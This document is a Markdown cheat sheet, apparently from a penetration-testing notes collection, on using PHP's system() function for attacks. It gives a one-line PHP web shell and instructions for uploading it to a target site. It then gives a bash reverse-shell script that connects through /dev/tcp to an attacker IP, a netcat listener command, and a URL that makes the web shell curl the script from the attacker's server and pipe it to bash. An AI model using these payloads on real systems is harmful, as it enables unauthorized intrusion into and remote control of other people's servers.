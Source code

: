 # PHP Quick Reference

## Contents
- [One-Liner: `system()` Function](#one-liner-system-function)
  - [Syntax](#syntax)
  - [Use as a Test](#use-as-a-test)
  - [Reverse Shell](#reverse-shell)
    - [Linux Payload](#linux-payload)
    - [Start a Listener](#start-a-listener)
    - [Spin Up a Local Web Server](#spin-up-a-local-web-server)
    - [Build a URL with curl to Execute](#build-a-url-with-curl-to-execute)

## One-Liner: system() Function
- This is a [PHP function](https://www.php.net/manual/en/function.system.php) that is used to execute a command.
- It uses the PHP `system()` function to execute commands that are being passed through `cmd` HTTP request `GET` parameter.
- The `cmd` is a parameter. You pass the argument to that parameter via the URL (see below).
- Reference: [An Introduction to Web Shells](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)

### Syntax
- This is the PHP web shell in its most simple form: 
```
<?php system($_GET["cmd"]); ?>
```

### Use as a Test
- Create a PHP file and upload it to a target site that's running PHP:
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
- Build a URL to execute that script with a command (specific to the operating system o/s).
- If you get a response from the command you send to the o/s via the PHP `system()` function, you know you can execute arbitrary code on the target.
```
# for Linux:
http://[target domain]/shell.php?cmd=id

# for Windows:
http://[target domain]/shell.php?cmd=dir
```

### Reverse Shell

#### Linux Payload
- Create a shell script file containing a [Bash one-liner](bash.md) for a reverse shell.
- Use vim or some other editor and create `shell.sh` containing the following: 
```
#!/bin/bash
bash -i &> /dev/tcp/[attack ip]/[port] 0>&1
```

#### Start a Listener
- On your attack machine, spin up a listener:
```
nc -nvlp 1234
```

#### Spin Up a Local Web Server
- Start a simple Python web server on your local attack machine to serve up the bash file.
- This command must be run from the subdir that contains `shell.sh`.
```
python3 -m http.server 8000
```

#### Build a URL with curl to Execute
- We combine the PHP one-liner with a curl command to fetch `shell.sh`, and then we pipe it to Bash in order to execute it.
```
http://[target domain]/shell.php?cmd=curl%20[local attack ip]:8000/shell.sh|bash
```











